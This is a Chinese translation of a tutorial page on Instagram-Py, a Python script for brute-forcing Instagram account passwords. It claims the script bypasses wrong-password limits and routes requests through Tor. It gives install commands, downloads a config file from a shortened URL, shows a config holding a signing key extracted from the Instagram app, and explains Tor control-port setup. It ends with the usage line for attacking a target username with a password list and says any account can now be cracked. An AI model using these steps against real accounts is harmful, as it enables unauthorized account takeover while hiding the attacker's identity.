 # insta gram-Py–暴力攻击的 Python 脚本

> 原文：<https://kalilinuxtutorials.com/instagram-py-python-script/>

Instagram-Py 是一个简单的 python 脚本，用于对 Instagram 进行暴力攻击，该脚本可以绕过错误密码的登录限制，因此基本上可以测试无限数量的密码。

Instagram-Py 经过演示，可以用尽可能少的资源在一个单独的 Instagram 账户上测试超过 600 万个密码。

这个脚本复制了 instagram android 应用程序的练习，并通过 tor 发送请求，所以你是安全的，但是如果你的 tor 安装配置错误，那么责任就在你。

### **也读 [Evasi0n 苹果 iOS 7.x 的越狱工具& 6.x 用户](http://kalilinuxtutorials.com/evasi0n-jailbreaking/)**

## **安装 Instagram-Py**

### **使用 pip 获取 Instagram-py**

确保您已经安装了最新版本的 pip(>= 9.0)和 python(>= 3.6)

```
$ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
$ sudo pip3 install requests --upgrade
$ sudo pip3 install requests[socks]
$ sudo pip3 install stem
$ sudo pip3 install instagram-py
$ instagram-py # installed successfully
$ # Now lets copy the config file to your hard drive!
$ wget -O ~/instapy-config.json "https://git.io/v5DGy"

```

## **配置 Instagram-Py**

打开你在主目录下找到的配置文件，这个文件**非常重要**位于 **~/instapy-config.json** ，除了 tor 配置，不要修改任何东西

```
$ vim ~/instapy-config.json # open it with your favorite text editior!
```

**配置文件看起来像这样**

```
{
 "api-url" : "https://i.instagram.com/api/v1/",
 "user-agent" : "Instagram 10.26.0 Android (18/4.3; 320dp..... ",
 "ig-sig-key" : "4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178",
 "ig-sig-version" : "4",
 "tor" : {
    "server" : "127.0.0.1",
    "port" : "9050",
    "protocol" : "socks5",
    "control" : {
          "password" : "",
          "port" : "9051"
      }
  }

}

```

api-url :除非你知道你在做什么，否则不要改变它

用户代理:除非你知道你的东西，否则不要改变它

**ig-sig_key** :除非是新版本，否则不要更改，这是从 instagram apk 文件中提取的

**tor** :根据你的 tor 服务器配置改变一切，不要搞砸！

### **配置 Tor 服务器打开控制端口**

打开通常位于 **/etc/tor/torrc** 的 **tor 配置**文件

```
$ sudo vim /etc/tor/torrc # open it with your text editor

```

**在**中搜索该**特定章节**的文件

```
## The port on which Tor will listen for local connections from Tor
## controller applications, as documented in control-spec.txt.
#ControlPort 9051

```

**通过删除“控制端口”前的 **#** 取消对**“控制端口”的注释，**现在保存文件并重启 tor 服务器**

现在你已经准备好破解任何 instagram 账号了，确保你的 tor 配置匹配~/instapy-config.json

## **用法**

**终于**了，现在可以用 instagram-py 了！

```
$ instagram-py your_account_username path_to_password_list

```

[![](img/a51de913dc60eee505c4a68651ee8e4d.png)](https://github.com/getsecnow/instagram-py)